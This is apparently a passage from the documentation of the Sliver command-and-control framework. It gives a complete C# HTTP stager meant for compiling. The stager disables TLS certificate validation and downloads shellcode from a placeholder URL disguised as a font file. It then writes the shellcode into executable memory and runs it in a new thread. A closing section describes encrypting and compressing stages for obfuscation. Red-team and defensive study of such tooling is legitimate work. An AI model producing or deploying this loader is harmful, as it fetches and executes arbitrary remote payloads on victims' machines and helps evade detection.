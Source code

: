 Here is a C# example of a custom HTTP stager, make sure to compile the C# code for the correct CPU architecture e.g. `/platform:x64`:

```csharp
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
    public class Stager
    {
        private static string url = "http://a.bc/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

## Encrypted Stage Example

Sliver supports encryption and compression when serving stages. Compression options are `zlib`, `gzip`, and `deflate` (level 9). Encryption is done via AES-CBC-128, since this encryption is primarily for obfuscation we don't really need a more secure cipher mode.
